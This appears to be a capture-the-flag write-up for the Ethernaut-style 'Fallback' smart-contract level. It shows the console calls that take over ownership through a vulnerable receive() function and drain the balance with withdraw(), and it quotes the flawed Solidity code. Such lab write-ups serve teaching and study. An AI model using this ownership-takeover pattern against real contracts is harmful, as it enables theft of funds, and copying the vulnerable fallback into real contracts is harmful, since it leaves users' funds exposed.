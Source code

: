 # Level 1 - Fallback challenge
## Player will use browser console for this attack.
```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
In order to pass the require statement player must use function contribute() 1 wei will be enough, using the console
player calls await contract.contribute({value: 1}).
```JavaScript
await contract.contribute({value: 1});
```
Next player calls await contract.sendTransaction({value: 1}) to the fallback function receive().
```JavaScript
await contract.sendTransaction({value: 1 });
```
Player can verify ownership with await contract.owner().
```JavaScript
await contract.owner();
```
Player will now be able to withdraw all tokens using await contract.withdraw().
```JavaScript
await contract.withdraw();
```
## Code snippets from contract showing vulnerablities.
```Solidity
 /** 
 @notice This fallback function receive() is the main attack target, in order to pass the 
  require statement player must use function contribute() 1 wei will be enough, using the console
  player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
  player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
  */
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender; 
  }
  
  /** 
  @notice This function could use a withdraw limit, but this allows player to exploit the 
  vulnerability to withdraw all funds using await contract.withdraw() to complete this level. 
  */
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  ```
  
